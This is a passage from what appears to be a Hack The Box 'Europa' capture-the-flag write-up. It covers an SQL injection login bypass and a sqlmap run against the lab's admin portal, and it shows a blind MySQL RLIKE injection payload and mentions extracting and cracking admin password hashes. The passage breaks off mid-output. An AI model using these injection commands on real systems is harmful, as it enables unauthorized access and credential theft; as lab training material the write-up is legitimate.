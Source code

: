 <img src="/assets/img/blog/htb-europa/htb-europa-05.png">

If everything is done correctly you will see a 302 redirect response which will grant us an authenticated cookie. This allows us to refresh the login page in our browser or forward the previous captured request right into the admin dashboard! 
<img src="/assets/img/blog/htb-europa/htb-europa-06.png">


## SQLmap
Alternatively, SQLmap can be used to extract the password hashes of the administrator. Cracking them should be the easy part.

```console
root@EdgeOfNight:~# sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" 
   
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by the program

[*] starting at 05:37:17
[A lot of scanning REDACTED for easier reading]
[05:37:17] [INFO] resuming back-end DBMS 'mysql' 
[05:37:17] [INFO] testing connection to the target URL
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=whatever' RLIKE (SELECT (CASE WHEN (1147=1147) THEN 0x6161 ELSE 0x28 END))-- EMIN&password=whatever

    Type: error-based
```